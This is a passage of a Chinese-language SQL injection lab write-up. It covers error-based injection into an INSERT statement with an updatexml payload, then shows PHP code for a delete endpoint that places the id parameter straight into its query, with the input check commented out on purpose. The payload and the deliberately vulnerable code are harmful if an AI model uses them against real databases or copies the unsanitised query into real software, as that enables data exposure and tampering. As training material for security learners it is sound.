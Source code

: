 ![](./src/sql3.png)
![](./src/sql4.png)

说明后台语句可能如下：（可用or语句进行闭合）
```
insert into member(username,pw,sex,phonenum,email,adderss) values('kite', 123, 1, 2, 3, 4);
```
构造如下payload: 基于insert下的报错注入

```
kite' or updatexml(1,concat(0x7e,database()),0) or'
```
## delete注入
**服务端核心代码**

```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理,导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```
